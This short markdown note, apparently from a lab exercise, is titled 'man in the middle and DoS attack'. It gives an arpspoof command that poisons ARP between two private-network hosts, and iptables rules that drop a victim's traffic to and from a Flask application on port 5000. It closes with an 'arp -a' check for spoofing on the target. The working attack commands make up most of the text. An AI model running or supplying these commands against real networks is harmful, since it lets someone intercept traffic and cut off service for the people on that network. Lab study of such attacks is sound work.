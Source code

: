 # man in the middle and DoS attack
 
## Command to start the arp spoof 
sudo arpspoof -i ens33 -t 10.0.0.45 -r 10.0.0.133

## Commands to filter out packets, dropping the packets for and from the victim specific to the flask application
sudo iptables -A FORWARD -s 10.0.0.133 -d 10.0.0.45 -p tcp --sport 5000 -j DROP
sudo iptables -A FORWARD -s 10.0.0.45 -d 10.0.0.133 -p tcp --dport 5000 -j DROP


## This command is the command to run on target vm to check if an arp spoof has occurred.  
arp -a
